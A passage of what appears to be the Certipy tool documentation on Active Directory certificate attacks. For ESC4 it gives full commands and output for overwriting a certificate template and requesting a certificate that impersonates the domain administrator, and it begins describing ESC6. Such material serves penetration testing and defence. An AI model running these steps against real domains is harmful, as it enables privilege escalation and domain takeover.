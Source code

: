 ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

By default, Certipy will overwrite the configuration to make it vulnerable to ESC1. 

We can specify the `-save-old` parameter to save the old configuration, which is useful for restoring the configuration afterwards.

```bash
$ certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4-Test' to 'ESC4-Test.json'
[*] Updating certificate template 'ESC4-Test'
[*] Successfully updated 'ESC4-Test'
```

The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` or `-dns` parameter.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -template ESC4-Test -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 783
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

If you want to restore the old configuration, you can specify the path to the saved configuration with the `-configuration` parameter.

```bash
$ certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4-Test'
[*] Successfully updated 'ESC4-Test'
```

#### ESC6

ESC6 is when the CA specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template's configuration. After the patch for my reported vulnerability [CVE-2022–26923](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4), this technique no longer works alone, but must be combined with [ESC10](https://research.ifcr.dk/7237d88061f7).
